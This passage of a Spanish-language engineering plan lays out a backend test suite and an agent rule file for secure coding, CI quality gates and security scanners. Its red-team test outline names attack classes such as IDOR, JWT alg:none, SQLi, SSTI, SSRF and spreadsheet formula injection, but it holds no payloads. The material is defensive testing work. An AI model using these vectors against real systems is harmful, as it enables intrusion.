├── conftest.py                                             # Fixtures globales async, rollback transaccional, tenants de prueba
├── architecture/                                           # [CAJA BLANCA - Ejecución < 2s en cada commit (Fast Gate)]
│   ├── test_clean_architecture.py                          # Prohibición de imports de FastAPI/SQLAlchemy en domain/
│   ├── test_alembic_integrity.py                           # Secuencia correlativa 0001..NNNN, Single-Head, downgrade() real
│   ├── test_rbac_and_audit_coverage.py                     # 100% endpoints con RBAC 3 niveles (<modulo>.<submodulo>.<funcion>)
│   ├── test_module_test_parity.py                          # ★ Verifica que cada módulo/servicio en src/ tenga su test par
│   ├── test_harness_and_merge_integrity.py                 # ★ Verifica ausencia de marcas de conflicto y consistencia de claims AST
│   ├── test_openspec_bipartition_and_sync.py               # ★ Verifica espejo 1:1 (business vs code), 0% SQL en business y paridad con Graphify
│   ├── test_oppyfy_telemetry_and_isolation.py              # ★ Verifica registro obligatorio en `llm_request_logs` y RBAC en tools de OppyFy
│   ├── test_jev_system1_enforcement.py                     # ★ Verifica evaluación obligatoria `can_jev_handle_it` y uso de `JevDecisionPort`
│   ├── test_i18n_keys_parity_and_no_hardcoded_strings.py   # ★ Verifica paridad 1:1 entre `locales/es/*.json` y `en/*.json` y 0 strings quemados
│   ├── test_fx_currency_precision_and_governance.py        # ★ Verifica triangulación FX con `Decimal`, circuit breaker > 8% y overrides auditados
│   ├── test_observability_pii_redaction_and_spans.py       # ★ Verifica `X-Trace-ID`, contexto Tenant y redacción PII al 100% en Sentry/OTel
│   ├── test_media_storage_isolation_and_quotas.py          # ★ Verifica aislamiento R2 `{env}/{holding}/{tenant}/` y cuota `max_storage_mb`
│   └── test_backup_encryption_and_tenant_restore.py        # ★ Verifica cifrado `.sql.zst.age` y restauración quirúrgica por Tenant
│
├── smoke/                                                  # [PRUEBAS DE HUMO - Ejecución < 3s]
│   └── test_system_boot_and_health.py                      # Arranque FastAPI, OpenAPI schema, DB/Redis ping, Login SuperUser Génesis
│
├── unit/                                                   # [PRUEBAS UNITARIAS Y PROPERTY-BASED - Ejecución < 5s]
│   ├── domain/
│   │   ├── test_math_properties.py                         # ★ Hypothesis: conversión 3 capas unidades, escandallos, Kardex Decimal
│   │   ├── test_rbac_evaluator.py                          # Ecuación de acceso efectivo, jerarquía de ranks, Grant Ceiling, JIT
│   │   └── test_plan_seat_quotas.py                        # Cálculo de cupos activos, liberación por soft-delete, over-quota
│   └── modules/                                            # Espejo 1:1 de cada módulo en src/modules/
│       ├── test_identity_services.py
│       ├── test_tenancy_services.py
│       ├── test_audit_services.py
│       ├── test_catalog_services.py
│       ├── test_inventory_services.py
│       ├── test_recipes_services.py
│       ├── test_procurement_services.py
│       ├── test_operations_services.py
│       ├── test_analytics_services.py
│       └── test_oppy_ai_services.py
│
├── integration/                                            # [PRUEBAS DE INTEGRACIÓN CAJA GRIS - DB & Redis Reales]
│   ├── test_multi_tenant_schema_isolation.py               # Aislamiento físico entre public, tenant_a y tenant_b
│   ├── test_soft_delete_and_redis_killswitch.py            # Soft-delete libera cupo en DB y revoca tokens en Redis al instante
│   ├── test_cross_tenant_holding_access.py                 # Trabajador operando en Hotel y Restaurante del mismo Holding
│   └── modules/                                            # Repositorios y endpoints por módulo
│
├── security_redteam/                                       # [PRUEBAS DE SEGURIDAD OFENSIVA - Mentalidad Kali Linux + ISO 27001]
│   ├── test_01_cross_tenant_and_holding_isolation_idor.py  # BOLA/IDOR, manipulación de X-Tenant-Schema y SQLi en search_path
│   ├── test_02_jwt_cryptographic_and_session_attacks.py    # alg:none, firma inválida, payload tampering, replay y post-soft-delete
│   ├── test_03_rbac_privilege_escalation_and_delegation.py # Bypass de rank, techo de concesión, módulos no contratados, JIT vencido
│   ├── test_04_polyglot_injections_sqli_xss_ssti_lfi.py    # Vectores SecLists: SQLi, XSS, SSTI, var-in-href, Path Traversal, SSRF
│   ├── test_05_malicious_file_uploads_and_excel_exploits.py# Magic Bytes spoofing (ELF/PHP como PDF/WebP), Formula Injection (=CMD)
│   ├── test_06_concurrency_race_conditions_double_spend.py # 25 corrutinas simultáneas contra cupos de plan, stock y permisos 1-uso
│   ├── test_07_information_disclosure_and_headers.py       # Cero stack traces en 404/422/500, HSTS, CSP, HttpOnly, CORS estricto
│   ├── test_08_ai_prompt_injection_and_rag_isolation.py    # OWASP LLM Top 10: Prompt Injection y aislamiento vectorial pgvector
│   ├── test_09_zero_hardcoding_and_secrets_guard.py        # ★ AST: Cero hardcoding, uso obligatorio de SecretStr y prohibición de os.getenv suelto
│   ├── test_10_resilience_chaos_and_circuit_breakers.py    # ★ CAOS & RESILIENCIA: Caída de Redis (fallback a DB), reset de search_path en pool y Circuit Breakers
│   └── test_11_environment_boundary_and_failfast.py        # ★ ENTORNOS: Guardrails local vs prod, entropía de SecretStr y ocultamiento de OpenAPI en Prod
│
├── contracts/                                              # [CAJA GRIS - Validación OpenAPI y Fuzzing]
│   └── test_openapi_schemathesis.py                        # Wrapper automatizado de Schemathesis multi-rol
│
├── e2e/                                                    # [PRUEBAS DE SISTEMA END-TO-END]
│   ├── test_e2e_01_genesis_holding_and_tenant_onboarding.py
│   ├── test_e2e_02_purchase_reception_to_kardex_stock.py
│   ├── test_e2e_03_recipe_sale_atomic_stock_deduction.py
│   ├── test_e2e_04_merma_declaration_approval_and_audit.py
│   └── test_e2e_05_rbac_delegation_jit_and_forensic_trace.py
│
├── uat/                                                    # [PRUEBAS DE ACEPTACIÓN DE USUARIO - Trazables al PRD]
│   └── test_uat_business_scenarios.py
│
└── load/                                                   # [RENDIMIENTO, CARGA Y ESTRÉS]
    └── locustfile.py                                       # Simulación de 500 RPS y validación de P95 <= 120ms
```

---

## 8. Artefactos de Gobernanza a Construir (Reglas, Skills, Contratos y Quality Gates)

| # | Artefacto | Ruta Exacta en el Proyecto | Propósito |
|---|---|---|---|
| **1** | **ADR de Testing y Seguridad** | `docs/adr/ADR-007-co-creation-testing-and-offensive-security-gates.md` | Congela la política de Co-Creación 1:1, la pirámide en 5 dimensiones y los escáneres SAST/DAST/SCA obligatorios. |
| **2** | **Regla de Testing y DoD** | `.agent/rules/05-testing-and-dod.md` | Define que ninguna tarea o subtarea puede cerrarse sin sus tests unitarios, de integración y de seguridad pasando al 100%. |
| **3** | **Regla de Seguridad Ofensiva** | `.agent/rules/08-offensive-security-and-qa-gates.md` | Obliga a validar cada código contra los 8 vectores Kali Linux, Semgrep, Trivy, `pip-audit`, `pnpm audit` y `knip`. |
| **4** | **Skill de Auditoría de Seguridad** | `.agent/skills/security-audit/SKILL.md` | Integra `cloudflare/security-audit-skill` + los comandos exactos de Semgrep, Trivy, Schemathesis y Knip. |
| **5** | **Gate de Paridad 1:1** | `oppytec-backend/tests/architecture/test_module_test_parity.py` | Falla en CI si se agrega un módulo o servicio en `src/modules/` sin su archivo de pruebas correspondiente en `tests/`. |
| **6** | **Makefile Unificado** | `Makefile` (en la raíz del monorepo) | Automatiza todos los comandos de pruebas, auditoría SAST/SCA y fuzzing con Schemathesis. |

---

## 9. Especificación de Referencia para `.agent/rules/08-offensive-security-and-qa-gates.md`

```markdown
# Regla 08: Co-Creación de Tests, Calidad Extrema y Seguridad Ofensiva (Zero-Vulnerability Policy)

## 1. Regla de Co-Creación Estricta (1:1 Code-to-Test)
- Por cada función, clase, servicio, endpoint o componente UI creado o modificado, el agente DEBE crear o actualizar en el mismo paso sus pruebas en:
  1. `tests/unit/` (incluyendo `Hypothesis` si involucra cálculos financieros, costos, stock o unidades).
  2. `tests/integration/` (verificando aislamiento de esquemas `public` vs `tenant_*`).
  3. `tests/security_redteam/` (verificando que no sea vulnerable a IDOR, SQLi, XSS, escalamiento RBAC ni condiciones de carrera).

## 2. Prohibiciones de Seguridad Basadas en Auditorías Previas y Política Cero Hardcoding
- **Cero Hardcoding de Secretos o Variables Globales:** Está terminantemente prohibido quemar en el código contraseñas (incluida la del SuperUser Génesis), tokens, API Keys, URLs (`localhost`, puertos, hosts de DB/Redis), nombres de buckets o credenciales JSON. Todo debe provenir de `.env` (en local) o del Secret Manager (en la nube) a través de `src/core/config.py` (con `SecretStr`) en Backend y `src/shared/config/env.ts` (validado con `Zod`) en Frontend.
- **Prohibido usar `os.getenv` / `os.environ` fuera de `src/core/config.py`:** Ningún servicio o módulo puede leer variables de entorno directamente ni definir valores por defecto inseguros en código.
- **Cero `float` en dinero o inventario:** Usa siempre `decimal.Decimal` en Python y `NUMERIC` en PostgreSQL.
- **Cero `var-in-href` sin sanitizar:** En plantillas HTML/Email o links de React, valida siempre que toda URL provenga de una base confiable o comience explícitamente con `https://` validado, evitando inyecciones `javascript:`.
- **Cero `sa.text()` con interpolación insegura:** Todo parámetro en SQL debe ser bind parameter (`:param`). Para identificadores de esquema en `SET LOCAL search_path`, pasa siempre por `validate_schema_identifier()` y usa bloqueo transaccional, asegurando `RESET search_path` en el checkin del pool.
- **Ordenamiento Canónico de Locks (`ORDER BY id ASC FOR UPDATE`):** Toda operación que bloquee múltiples registros (ej. descuento de ingredientes de recetas o recepción de compras) DEBE ordenar los IDs de forma ascendente antes de ejecutar `FOR UPDATE` para hacer matemáticamente imposibles los deadlocks cruzados, además de contar con retry automático ante `SQLSTATE 40P01`.
- **Resiliencia ante Caída de Redis (Zero SPOF):** Ningún middleware puede convertir a Redis en un *Single Point of Failure*. El Kill-Switch de autenticación debe hacer fallback a PostgreSQL si Redis supera `50ms` de timeout, y el caché/rate-limiter debe degradar con Circuit Breaker sin arrojar `HTTP 500`.
- **Cero `extra="allow"` en esquemas de entrada:** Todos los esquemas `Pydantic v2` de request deben configurar `model_config = ConfigDict(extra="forbid", str_strip_whitespace=True)` para impedir ataques de *Mass Assignment*.

## 3. Quality Gates Estratificados (3 Niveles de Ejecución)
1. **Fast Gate (Cada Paso de Co-Creación / Pre-Commit < 15s):**
   - `uv run ruff check .` && `uv run mypy --strict src/` && `pnpm lint` && `pnpm tsc --noEmit`
   - `gitleaks protect --staged`
   - `uv run pytest tests/architecture/ tests/unit/<modulo> --hypothesis-profile=dev`
2. **Main Gate (Pre-Push / Pull Request / Cierre de Sub-tarea < 3m):**
   - `uv run pytest tests/smoke/ tests/unit/ tests/integration/ tests/security_redteam/ --cov=src --cov-branch --cov-fail-under=85`
   - `pnpm dlx knip` && `uv run deptry .`
   - `uvx semgrep scan --config auto --config p/security-audit --error` (Backend) y `SEMGREP_ENABLE_IO_URING=0 uvx semgrep scan --config p/react --config p/typescript --config p/owasp-top-10 --config p/secrets --error` (Frontend)
3. **Deep Gate (Cierre de Fase de `06-IMPLEMENTATION-PLAN.md` / Staging / Nightly):**
   - `uvx pip-audit` && `pnpm audit --audit-level=high` && `pnpm run build`
   - `trivy fs --exit-code 1 --severity HIGH,CRITICAL .`
   - `uvx schemathesis run "$API_BASE_URL/openapi.json" --checks not_a_server_error` (alimentado por variables de entorno vía `stdin`, cero credenciales en CLI)
   - `Locust` ($500\text{ RPS}$, $P_{95} \le 120\text{ ms}$) + `Playwright E2E` + `Hypothesis` (`--hypothesis-profile=ci`).
```
